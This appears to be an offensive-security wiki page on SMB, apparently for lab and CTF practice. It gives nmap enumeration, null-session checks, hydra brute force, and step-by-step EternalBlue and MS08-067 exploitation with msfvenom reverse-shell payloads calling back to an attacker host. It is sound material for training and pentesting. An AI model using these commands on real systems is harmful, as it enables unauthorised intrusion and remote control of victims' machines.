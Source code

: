 # SMB

## Theory 

The Server Message Block Protocol (SMB Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports, and data on a network. It can also carry transaction protocols for authenticated inter-process communication.  

SMB protocols operate on different ports depending on the type of communication:

- **Port 445 (TCP)**: This port is used for direct SMB communication over TCP/IP, including file and printer sharing, remote administration, and inter-process communication.

- **Port 139 (TCP)**: This port is used for SMB over NetBIOS, which is an underlying protocol that SMB relies on for name resolution and session establishment.

## Practice  

### Enumerate  

{% tabs %}
{% tab title="nmap" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to enumerate SMB.
```bash
#list the supported protocols and dialects of a SMB server. 
nmap --script="smb-protocols" -p 445 <IP>

#Determines the message signing configuration
nmap --script="smb-security-mode" -p 445 <IP>

#Try to enum SMB sessions/shares/users/domains/groups... with null/anonymous session
nmap --script="smb-enum*" -p 445 <IP>

#Or enum with a valide session
nmap --script="smb-enum-shares" --script-args smbusername=administrator,smbpassword=mypassword_1 -p 445 <IP>
```
{% endtab %}
{% endtabs %}

### Authentication 

{% tabs %}
{% tab title="Null session" %}
`Null session` refers to an unauthenticated session established with an SMB server where the client does not provide any credentials.
```bash
#SmbClient
smbclient -U '' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endtab %}

{% tab title="Anonymous logon" %}
The inclusion of `Anonymous` and `Everyone` access group in the `pre-Windows 2000 compatible` access group allow us to make an anonymous connection over SMB.
Using a random username and password you can check if the target accepts annonymous/guest logon
```bash
#SmbClient
smbclient -N -L '\\<IP>\'
smbclient -U 'a' -N -L '\\<IP>\'

#CrackMapExec
crackmapexec smb <IP> -u 'a' -p '' --shares
```
{% endtab %}

{% tab title="Bruteforce" %}
Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.
```bash
# hydra
hydra -L usernames.txt -P passwords.txt <IP> -V -f smb

# nmap
nmap --script smb-brute -p 445 <IP>
```
{% endtab %}
{% endtabs %}

### Vulnerabilities

You may use nmap to scan target for SMB vulnerabilities
```bash
sudo nmap -p 445 --script="smb-vuln-*" <IP>
```

#### EternalBlue - MS17-010  

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the SMBv1 server.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to detect the presence of the EternalBlue vulnerability.
```bash
sudo nmap -p 445 --script="smb-vuln-ms17-010" <IP>
```
{% endtab %}
{% tab title="Exploit - worawit" %}
To exploit, we may use the Worawit [PoC](https://github.com/worawit/MS17-010) on GitHub

- first, we have to edit `USERNAME` and `PASSWORD` at the begening of the `zzz_exploit.py` script.
- Second, generate a reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```
- Third, we have to edit , he `smb_pwn` function in `zzz_exploit.py`. This is the action taken with the exploit.
```bash
smb_send_file(smbConn, '/home/v4resk/Documents/www/pwned.exe', 'C', '/pwned.exe')
service_exec(conn, r'cmd /c c:\\pwned.exe')
```
- Fourth, trigger the exploit
```bash
#Exploit
python2.7 zzz_exploit.py <IP>

#Exploit on ntsvcs named pipe
python2.7 zzz_exploit.py <IP> ntsvcs
```
{% endtab %}
{% tab title="Exploit - helviojunior" %}
To exploit, we may use the helviojunior [PoC](https://github.com/helviojunior/MS17-010) on GitHub. He forked the worawit repo and added a single `send_and_execute.py`, which is really handy.

- First, we have to edit `USERNAME` and `PASSWORD` at the begening of the `send_and_execute.py` script
- Second, generate a reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```
- Third, trigger the exploit
```bash
#Exploit
python2.7 send_and_execute.py <IP> pwned.exe

#Exploit on ntsvcs named pipe
python2.7 send_and_execute.py <IP> pwned.exe ntsvcs
```
{% endtab %}
{% endtabs %}

#### MS08-067 

The MS08-067 vulnerability is a buffer overflow vulnerability in the Windows Server service.The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request. On Microsoft Windows 2000, Windows XP, and Windows Server 2003 systems, an attacker could exploit this vulnerability without authentication to run arbitrary code.

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to to detect the presence of the MS08-067 vulnerability.
```bash
sudo nmap -p 445 --script="smb-vuln-ms08-067" <IP>
```
{% endtab %}

{% tab title="Exploit" %}
To exploit, we may use the jivoi [PoC](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py) on GitHub.

- First, generate a Python shellcode and utilize it to replace the current one in `ms08-067.py`.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

- Second, we have to guess version of windows and language pack. The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell.

- Third, trigget the exploit
```bash
#6 is for Windows XP SP3 English (NX)
python ms08-067.py 10.10.10.4 6 445

#4 is for Windows 2003 SP1 English
python ms08-067.py 10.10.10.4 4 445
```

{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html" %}